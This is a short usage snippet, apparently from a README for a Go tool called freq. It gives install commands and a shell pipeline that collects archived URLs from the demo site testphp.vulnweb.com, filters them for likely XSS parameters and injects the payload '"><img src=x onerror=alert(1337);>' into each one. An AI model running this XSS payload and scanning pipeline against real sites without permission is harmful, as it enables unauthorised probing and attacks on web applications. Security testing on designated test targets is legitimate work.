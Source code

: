 how to use:
go install github.com/coffinsp/freq@latest
cd go/bin
sudo mv freq /usr/local/bin
echo testphp.vulnweb.com | waybackurls | gf xss | urldedupe | qsreplace '"><img src=x onerror=alert(1337);>' | freq
